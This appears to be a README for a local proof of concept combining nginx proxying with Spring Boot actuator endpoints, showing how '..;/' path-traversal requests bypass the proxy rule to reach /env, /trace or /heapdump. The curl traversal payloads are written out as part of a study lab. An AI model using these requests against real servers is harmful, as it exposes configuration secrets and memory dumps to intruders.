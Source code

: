 # Purpose
This is a PoC that combines Orange Tsais research about ["Breaking parser logic"](http://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) and an unsecure configuration of spring-boot-starter-actuator as documented in [Baeldungs Docs 3.7 Further Customization](https://www.baeldung.com/spring-boot-actuators#boot-1x-actuator)


# Walkthrough 
1. cd spring; mvn clean install
2. cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3. test java service: `curl http://localhost:8080/api/hello`
4. install nginx and change nginx server listen port to 8081
5. add this to your nginx configuration to add a proxy rule:
```
	location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
```
6. start nginx
7. `curl localhost:8081/orange/..;/env`
8. `curl localhost:8081/orange/directory/..;/..;/env`

Nginx will send the request to the spring boot application at `http://localhost:8080/api/directory/..;/..;/env`
The path traversal makes that a request to `http://localhost:8080/env`
/env can be substituted by any default actuator endpoint, e.g. /trace or /heapdump
